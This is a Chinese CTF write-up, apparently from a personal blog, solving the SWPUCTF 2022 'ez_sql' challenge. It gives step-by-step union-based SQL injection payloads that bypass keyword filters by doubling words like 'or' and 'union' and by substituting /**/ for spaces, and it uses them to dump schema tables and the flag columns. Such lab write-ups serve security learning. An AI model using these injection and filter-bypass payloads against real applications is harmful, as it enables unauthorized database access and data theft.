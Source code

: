 # 【SWPUCTF 2022 新生赛】jez_sql


# [SWPUCTF 2022 新生赛]ez_sql

## 思路
* 看题目就是sql注入
* 进去就是nss的POST传参sql爆破

## EXP

直接上语句

先发现是字符型注入。然后就按套路

```
nss=-1&#39;#
```

这里order by 发现or被去掉

空格发现报错

双写绕过or，空格用/**/代替

查出是3列

```
nss=-1&#39;/**/oorrder/**/by/**/1,2,3#
```

联合查询

union过滤双写绕过

爆库发现回显无变化，考虑用limit

```
nss=-1&#39;/**/ununionion/**/select/**/1,2,database()/**/limit/**/1,1#
```

爆表

or过滤绕过

```
nss=-1&#39;/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=&#39;NSS_db&#39;/**/limit/**/1,1#
```

```
NSS_tb,users
```

爆字段

&gt; 以user为例，实际上user并无啥用
&gt;
&gt; 因此sql题还是随手记指令QAQ

```
nss=-1&#39;/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name=&#39;users&#39;/**/limit/**/1,1#
```

```
id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS		//users

id,Secr3t,flll444g		//NSS_tb
```

得到字段直接查询

```
nss=-1&#39;/**/ununionion/**/select/**/1,2,username/**/from/**/users/**/limit/**/1,1#		//users（啥都没有）

nss=-1&#39;/**/ununionion/**/select/**/1,Secr3t,flll444g/**/from/**/NSS_tb/**/limit/**/1,1#			//NSS_tb	
```

## 总结

* sql注入
* 双写过滤绕过
* 翻页
* 空格过滤绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2022-%E6%96%B0%E7%94%9F%E8%B5%9Bez_sql/  


